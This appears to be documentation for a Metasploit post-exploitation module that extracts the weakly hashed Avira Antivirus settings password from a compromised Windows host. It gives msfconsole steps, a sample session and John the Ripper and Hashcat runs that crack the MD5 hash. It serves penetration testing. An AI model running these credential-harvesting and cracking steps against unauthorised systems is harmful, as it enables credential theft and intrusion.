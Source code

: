 ## Vulnerable Application

This module extracts the weakly hashed password which is used to protect a Avira Antivirus (<= 15.0.17.273) installation.

Avira AntiVir 15.0.2009.1965 can be downloaded [here](https://www.techspot.com/downloads/41-antivir-personal-edition.html)

To enable the password functionality, use the following instructions:

1. Open Avira Antivirus
1. Click the gear icon in the bottom left corner
1. Select General
1. Click Password
1. Enter a password in the boxes, and click Apply

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get a shell
1. Do: `use post/windows/gather/credentials/avira_password`
1. Do: `set session [session]`
1. Do: `run`
1. You should get the MD5 password

## Options

## Scenarios

### Avira Antivirus 15.0.2009.1965 on Windows 10

```
msf exploit(multi/handler) > use post/windows/gather/credentials/avira_password 
msf post(windows/gather/credentials/avira_password) > set session 1
session => 1
msf post(windows/gather/credentials/avira_password) > set verbose true
verbose => true
msf post(windows/gather/credentials/avira_password) > run

[*] Checking default location...
[*] Found file at C:\ProgramData\Avira\Antivirus\CONFIG\AVWIN.INI
[*] Processing configuration file...
[+] MD5(Unicode) hash found: C8059E2EC7419F590E79D7F1B774BFE6
[+] Info: Password length is limited to 20 characters.
[*] Post module execution completed
```

#### Cracking the password

##### John

```
msf post(windows/gather/credentials/avira_password) > creds
Credentials
===========

host  origin        service  public  private                           realm  private_type        JtR Format
----  ------        -------  ------  -------                           -----  ------------        ----------
      192.168.2.92                   C8059E2EC7419F590E79D7F1B774BFE6         Nonreplayable hash  Raw-MD5u

msf post(windows/gather/credentials/avira_password) > creds -o /tmp/avira.jtr
[*] Wrote creds to /tmp/avira.jtr
```

```
user@kali:~$ sudo john --format=Raw-MD5u --wordlist=/usr/share/john/password.lst /tmp/avira.jtr
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5u [md5(utf16($p)) 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
test             (?)
1g 0:00:00:00 DONE (2020-10-10 11:30) 100.0g/s 24000p/s 24000c/s 24000C/s steve..blazer
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

##### Hashcat

```
user@kali:~$ hashcat -m 30 /tmp/avira.jtr /usr/share/john/password.lst
hashcat (v6.1.1) starting...

...clip...

Dictionary cache built:
* Filename..: /usr/share/john/password.lst
* Passwords.: 3559
* Bytes.....: 26325
* Keyspace..: 3559
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

c8059e2ec7419f590e79d7f1b774bfe6::test           
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5(utf16le($pass).$salt)
Hash.Target......: c8059e2ec7419f590e79d7f1b774bfe6:
Time.Started.....: Sat Oct 10 11:40:51 2020 (0 secs)
Time.Estimated...: Sat Oct 10 11:40:51 2020 (0 secs)
Guess.Base.......: File (/usr/share/john/password.lst)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1296.0 kH/s (1.04ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3559/3559 (100.00%)
Rejected.........: 0/3559 (0.00%)
Restore.Point....: 0/3559 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: #!comment: This list has been compiled by Solar Designer of Openwall Project -> sss
Hardware.Mon.#1..: Temp: 43c Util: 43% Core: 705MHz Mem:1400MHz Bus:16

Started: Sat Oct 10 11:40:51 2020
Stopped: Sat Oct 10 11:40:52 2020
```
